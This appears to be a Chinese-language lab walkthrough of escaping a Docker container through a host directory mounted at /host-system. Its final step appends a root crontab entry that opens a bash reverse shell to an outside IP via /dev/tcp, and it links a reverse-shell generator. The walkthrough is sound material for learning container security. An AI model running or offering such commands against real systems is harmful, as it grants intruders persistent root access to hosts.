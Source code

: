 Container escape to the host system

容器逃逸到主机系统
![image](https://github.com/RuoJi6/cloud-security/assets/79234113/402f7578-fb8f-414c-ab82-8be109bac71c)


地址：http://192.168.86.139:1233/

查看目录以及标签，应该是需要从docker逃逸到真实机器

这个也类似于实战

在实战中：

1、判断当前shell权限\[如果不是root需要提权\]

2、判断当前是在k8s还是docker中

判断环境

![image-20231120172906719](./assets/image-20231120172906719.png)

发现是在docker

```sshell
mount \| grep '/ type'
```

![](./assets/image-20231120172910564.png)

 

一般在docker中逃逸分为

1、docker版本漏洞

2、宿主机漏洞

3、管理人员配置不当产生的漏洞

 

我们先使用第三种

第三种\[管理人员配置不当产生的漏洞\]：

1、特权启动

2、Docker Socket

3、procfs逃逸

4、目录挂载

 

这里我们从最简单的开始目录挂载\[输入以下命令\]

```shell
mount | grep 'type fuse'
Or
df -h
```

![image-20231120172922758](./assets/image-20231120172922758.png)

发现挂载目录是/host-system

![image-20231120172926719](./assets/image-20231120172926719.png)

 

得到真实机器命令，这里我们可以写入用户或者是反弹shell

 

```shell
cat /host-system/etc/crontab
```

![image-20231120172932299](./assets/image-20231120172932299.png)

生成在线反弹shell

[Online - Reverse Shell Generator (taoyuan.cool)](https://taoyuan.cool/shell/)

 

 

```shell
echo "\* \* \* \* \* root bash -i \>& /dev/tcp/192.168.86.218/3332 0\>&1" \>\>/host-system/etc/crontab
```

![image-20231120172939654](./assets/image-20231120172939654.png)

 

写入成功

![image-20231120172942919](./assets/image-20231120172942919.png)

 

拿到真实机器shell
